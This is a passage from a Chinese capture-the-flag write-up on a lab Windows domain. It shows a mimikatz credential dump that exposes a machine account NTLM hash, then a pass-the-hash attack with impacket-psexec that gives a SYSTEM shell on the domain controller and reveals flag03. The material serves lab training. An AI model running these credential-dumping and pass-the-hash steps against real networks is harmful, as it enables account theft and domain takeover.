a6 ab 3f 74 12 b7 af f6 e1 cc 99 51 c4 9b 08 d0 
	ssp :	
	credman :	

Authentication Id : 0 ; 18795647 (00000000:011ecc7f)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/6/20 15:14:31
SID               : S-1-5-90-0-2
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : c82c0065db975598c29e5d285e006327
	 * SHA1     : 343075a1efeb46462e7a460fde3c22d778e937d3
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : WIN2016$
	 * Domain   : xiaorang.lab
	 * Password : 71 64 fb aa 11 1b 18 4f 24 5b 45 0e 20 ff 54 bc 3d d9 2b 2c 9a 4e ae 37 08 2b da 36 dd 14 2c dd 19 92 d9 65 3e 5d 1b a9 d4 fd 62 1e 9e 1c f6 ea 05 8b 52 30 5c a9 be 21 53 5b f6 4b 1b 8b c1 c1 3a 38 58 ab 44 37 ea a8 f0 11 56 70 b6 82 ae a8 3b ca 24 3a 33 e8 dd 08 84 82 91 e9 f7 da ab 15 b2 ed a4 ee f9 27 20 02 14 9a 04 8a 21 d0 29 13 19 8b 24 a4 a2 9d 83 4e 85 3f 61 47 4b d9 a4 51 eb 33 88 28 35 eb 12 ee 75 6f 81 a2 de de c2 37 c4 6d 07 27 a0 2a 1e bd 67 b0 bc 0d a3 73 83 d9 21 5d 1f 3c 9d c2 77 b6 15 f8 f3 ea 1e d7 3e 58 2d 9b a2 63 2c 1d d2 6f e2 96 08 b7 5c f5 fe 64 45 51 40 2f e6 f9 ef 67 6d 89 64 23 60 60 03 86 0a 0e 54 64 68 f5 f4 14 54 38 b3 ae dd 04 db e3 a6 ab 3f 74 12 b7 af f6 e1 cc 99 51 c4 9b 08 d0 
	ssp :	
	credman :	

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/6/20 13:29:10
SID               : S-1-5-17
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/6/20 13:29:07
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN2016$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2025/6/20 13:29:06
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : win2016$
	 * Domain   : XIAORANG.LAB
	 * Password : (null)
	ssp :	
	credman :	
```
## 172.22.8.15(DC) PTH
抓取到WIN2016$的机器账户ntlmhash为c82c0065db975598c29e5d285e006327。pth即可。
```bash
┌──(㉿kali)-[~/桌面]
└─$ proxychains4 -q impacket-psexec -hashes ":c82c0065db975598c29e5d285e006327" xiaorang.lab/WIN2016\$@172.22.8.15 -codec gbk
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 172.22.8.15.....
[*] Found writable share ADMIN$
[*] Uploading file MTuJXcwa.exe
[*] Opening SVCManager on 172.22.8.15.....
[*] Creating service vBSX on 172.22.8.15.....
[*] Starting service vBSX.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.20348.707]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\flag\flag03.txt
 _________               __    _                  _    
|  _   _  |             [  |  (_)                / |_  
|_/ | | \_|.--.   .---.  | |  __  .---.  _ .--. `| |-' 
    | |   ( (`\] / /'`\] | | [  |/ /__\\[ `.-. | | |   
   _| |_   `'.'. | \__.  | |  | || \__., | | | | | |,  
  |_____| [\__) )'.___.'[___][___]'.__.'[___||__]\__/  


Congratulations! ! !

flag03: flag{2a8fda98-cdff-4065-8926-d1f9144ef724}
```
# 总结


